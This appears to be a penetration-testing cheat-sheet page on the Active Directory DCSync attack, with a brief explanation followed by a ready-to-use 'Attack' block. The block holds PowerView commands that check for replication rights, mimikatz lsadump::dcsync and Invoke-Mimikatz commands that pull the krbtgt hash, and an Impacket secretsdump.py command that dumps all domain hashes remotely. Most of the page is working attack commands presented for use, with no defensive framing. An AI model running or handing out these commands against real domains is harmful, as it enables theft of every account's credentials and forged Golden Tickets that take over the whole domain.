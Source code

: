 # DCSync

<details>

<summary>What is the DCSync attack ?</summary>

This attack simulates the **behavior** of a **domain controller** and **asks other domain controllers to replicate information** using the **Directory Replication Service Remote Protocol** (MS-DRSR). Basically, it lets you **pretend to be a domain controller** and ask for user password data. This can be used by attackers to get any account’s NTLM hash including the KRBTGT account, which enables attackers to create **Golden Tickets.**

The only pre-requisite to worry about is that you have an account with **rights** to perform **domain replication**. This is controlled by the Replicating Changes permissions set on the domain.

</details>

## Attack

```powershell
'''
WINDOWS - locally
'''
# check privileges
Get-ObjectAcl -DistinguishedName "dc=fcorp,dc=local" -ResolveGUIDs | ?{($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')}
# or
Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ?{($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ActiveDirectoryRights -match 'WriteDacl')}

# if OK, mimikatz :
lsadump::dcsync /domain:fcorp.local /user:krbtgt
# or
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
# note : the user that has dcsync priv

'''
LINUX - remotely
'''
# user with dcsync
secretsdump.py -just-dc $user:$passwd@$ip -outputfile dcsync_hashes
```
